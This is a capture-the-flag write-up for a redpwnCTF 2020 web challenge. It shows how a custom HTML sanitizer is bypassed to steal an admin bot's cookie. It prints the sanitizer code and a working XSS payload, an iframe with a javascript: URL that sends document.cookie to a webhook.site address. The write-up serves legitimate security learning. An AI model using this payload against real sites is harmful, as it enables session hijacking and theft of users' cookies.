


# static-static-hosting
**Category:** Web

**Points:** 434

**Description:**
> Seeing that my last website was a success, I made a version where instead of
storing text, you can make your own custom websites! If you make something cool,
 send it to me here
>
> **Site:** ` static-static-hosting.2020.redpwnc.tf `
>
> **Note:** The site is entirely static. Dirbuster will not be useful in solving it.
>
> **Author:** BrownieInMotion

## Writeup
This challenge is very similar to the **static-pastebin**
challenge. I would even consider it a precursor to this challenge, so I will
keep this writeup short. If you want more information, check out my
[writeup for static-pastebin](https://github.com/itsecgary/CTFs/tree/master/redpwnCTF%202020/static-pastebin)

Anyways, we check the two links above and get the same bot submission webpage as
well as the same type of pastebin website. The title changed and we see that we
are pasting "HTML" instead of text. Nonetheless, it will most likely be another
**Reflected XSS** attack.

I went ahead and tested out a random word to
see what we are working with. I check the sources and we have another sanitization
function to work with:
```
function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

Looks like we won't be able to but any "script" tags anywhere in there. We can
also see it sanitizes attributes, which limits us even more. Our goal here is probably
to steal the admin-bot's cookie again and we will need to inject some javascript
into a tag here.

After messing around for a while, I reached a point where I am able to overwrite
the location of the current session to a different website. I will be using **Webhook** again
because it worked well for me for the last challenge.

Here is my final exploit:
```
<iframe src="javascript:top.location.href='https://webhook.site/b3ead4c5-b498-4d5f-9b82-f6fa49d9639f/?'+document.cookie"></iframe>
```

I will enter a cookie: "XSS = but make it reflected (part 2)" and test it out.



When we click on "Take me to my website!", it redirects right away and it is hard to copy
the address right away. For this case, I just base64 encoded it and put together the URL
and submitted it to the admin-bot.



## Flag
flag{wh0_n33d5_d0mpur1fy}

## Resources
[Webhook](https://webhook.site/)
